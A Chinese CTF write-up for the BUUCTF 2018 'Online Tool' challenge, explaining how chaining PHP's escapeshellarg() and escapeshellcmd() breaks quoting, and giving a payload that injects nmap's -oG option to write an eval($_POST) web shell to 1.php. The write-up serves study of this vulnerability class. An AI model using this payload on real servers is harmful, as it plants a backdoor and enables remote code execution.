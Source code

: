 ## [BUUCTF 2018]Online Tool

`escapeshellarg与escapeshellcmd绕过`

`HTTP_X_FORWARDED_FOR`和`REMOTE_ADDR`都是服务器用来获取`ip`用的，在本题没什么用。下面的代码才是重点。我们需要`host`传参，再经过下面两个函数的处理，最后拼接字符串执行`system`系统函数。`mkdir`函数创建新目录。

现在我们面临的有两个难题，第一个是`escapeshellarg()`和`escapeshellcmd()`函数的绕过，第二个是如何构造命令执行`payload`。

### 函数的绕过

回看上面的代码，如果没有那两个函数的处理，这题就变得简单多了，我们可以执行多参数命令，用`||`或者`;`将前面分割，后面写入我们想要执行的命令。而`escapeshellcmd()`就是阻止多参数命令执行的，因为一整个传参的内容都被当做一串字符串了。虽然命令语句只能执行一个，但是可以指定不同参数，比如

```php
$username = 'myuser1 myuser2';
system('groups '.$username);
=>
//myuser1 : myuser1 adm cdrom sudo
//myuser2 : myuser2 adm cdrom sudo
```

但是在escapeshellarg()函数处理后，就会被当做一个参数来执行命令了。（相关文章：[利用/绕过 PHP escapeshellarg/escapeshellcmd函数 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/107336)）

但它们组合使用时就会造成漏洞，就借用一个大佬的例子，通俗易懂。

```cobol
传入的参数是：172.17.0.2' -v -d a=1
经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。
```

（相关文章链接：[PHP escapeshellarg()+escapeshellcmd() 之殇 (seebug.org)](https://paper.seebug.org/164/)）

也就是说，escapeshellcmd()函数转义了用于转义单引号的斜杠，导致这个单引号与后面的单引号形成了空白连接符就能执行命令了。

### `nmap`构造命令

`system`函数里拼接了`nmap`的指令字符串。`nmap`中的`-oG`参数可以将代码与命令写到文件中，比如`nmap <?php phpinfo();?> -oG 1.php`，就是将这个`phpinfo();`语句写在了`1.php`里内了。

### 构造`payload`

`payload`构造如下

最后需要有`空格`

```php
?host='<?php eval($_POST[1]);?> -oG 1.php '
```

[参考](https://blog.csdn.net/m0_62422842/article/details/125451022)

## [BJDCTF2020]ZJCTF，不过如此
